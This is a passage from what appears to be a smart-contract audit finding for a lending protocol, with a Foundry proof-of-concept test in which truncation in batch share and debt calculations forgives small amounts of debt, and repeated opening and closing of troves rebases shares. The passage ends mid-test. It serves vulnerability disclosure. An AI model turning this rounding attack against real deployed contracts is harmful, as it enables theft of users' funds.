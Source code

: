 The forgiven Share comes from truncation in `_updateBatchShares`

2) Opening and closing can be spammed to rebase shares, if we had no MIN_DEBT this could be easily turned into a critical exploit
For now I'm able to rebase the PPFS but I'm unable to generate more forgiven debt than 1 unit at a time

The forgiven Debt comes from truncation in `_getLatestTroveDataFromBatch`

 
```solidity
// SPDX-License-Identifier: MIT

pragma solidity 0.8.18;

import "./TestContracts/DevTestSetup.sol";

contract Redemptions is DevTestSetup {


    bool WITH_INTEREST = true; // Do we need to tick some interest to cause a rounding error?
    // NOTE: Because the interest rebases the share, I think we do
    // Whereas mgmt fees do not rebase the shares, they mint more at same ppfs
    // For this reason I think we need to pay the interest, and we limit it to 12 seconds 
    // One block
    // Which is a pretty realistic setup
    // We fundamentally just need to get a divisor that will cause remainder

    // forge test --match-test test_alex_demo_rebase -vv
    function test_alex_demo_rebase() public{
        // Open Trove
        priceFeed.setPrice(2000e18);

        // Extra Debt (irrelevant / Used to not use deal)
        uint256 CTroveId = openTroveNoHints100pct(C, 100 ether, 100e21, MIN_ANNUAL_INTEREST_RATE + 500);

        uint256 ATroveId = openTroveAndJoinBatchManager(A, 100 ether, MIN_DEBT, B, MIN_ANNUAL_INTEREST_RATE);
        // Sock Puppet Trove | Opened second so we can redeem this one | We need to redeem this one so we can inflate the precision loss
        uint256 BTroveId = openTroveAndJoinBatchManager(B, 100 ether, MIN_DEBT, B, MIN_ANNUAL_INTEREST_RATE);


        // Send enough to have A close that trove
        vm.startPrank(C);
        boldToken.transfer(A, boldToken.balanceOf(C));
        vm.stopPrank();


        // MUST accrue to rebase shares
        // Limit to one block so this attack is basically unavoidable
        if(WITH_INTEREST) {
            vm.warp(block.timestamp + 12);
        }


        // === FUNDAMENTAL REMAINDER = SKIP DEBT POC === ///

        LatestBatchData memory b4Batch = troveManager.getLatestBatchData(address(B));

        // TODO: Open A, Mint 1 extra (forgiven to A)
        _addOneDebtAndEnsureItDoesntMintShares(ATroveId, A); /// @audit MED impact | Skip of debt assignment

```